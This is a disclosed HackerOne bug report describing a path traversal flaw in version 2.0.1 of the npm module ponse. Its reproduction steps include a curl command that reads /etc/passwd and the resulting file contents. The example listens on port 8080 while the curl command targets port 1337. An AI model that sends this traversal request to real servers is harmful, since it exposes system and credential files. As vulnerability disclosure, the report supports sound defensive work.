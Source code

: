 # [ponse] Path traversal in ponse module allows to read any file on server

## Report Details
- **Report ID**: 383112
- **URL**: https://hackerone.com/reports/383112
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-07-18T13:28:14.211Z
- **Disclosed**: 2018-07-20T08:58:03.065Z

## Reporter
- **Username**: szkrstf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal in ponse.
It allows reading local files on the target server.

# Module

**module name:** ponse
**version:** 2.0.1
**npm page:** `https://www.npmjs.com/package/ponse`

## Module Description

Module for work with requests and responses

## Module Stats

[317] downloads in the last week
[1633] downloads in the last month

# Vulnerability

## Vulnerability Description

Path traversal vulnerability in ponse module allows to go up in directory tree and read content of any file, like /etc/passwd.

Vulnerability exists in the getStatic function, because ponse uses user submitted variable without any protection against path traversal attacks.

## Steps To Reproduce:

 - install module
`npm i --save ponse`
 
 - create index.js. for example:
```javascript
var ponse = require('ponse')
var http = require('http')
http.createServer(
    ponse.static(__dirname)
).listen(8080)
```

 - start server
`node index.js`

 - use curl to acces any file on the target server outside the given directory(__dirname). For example:
```
$ curl --path-as-is localhost:1337/../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
daemon:x:2:2:daemon:/:/usr/bin/nologin
...
```

## Supporting Material/References:

- linux 4.17.5-1-ARCH
- v10.6.0
- 6.2.0
- curl 7.61.0

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Malicious user can read any file on the target server.

## Attachments
No attachments
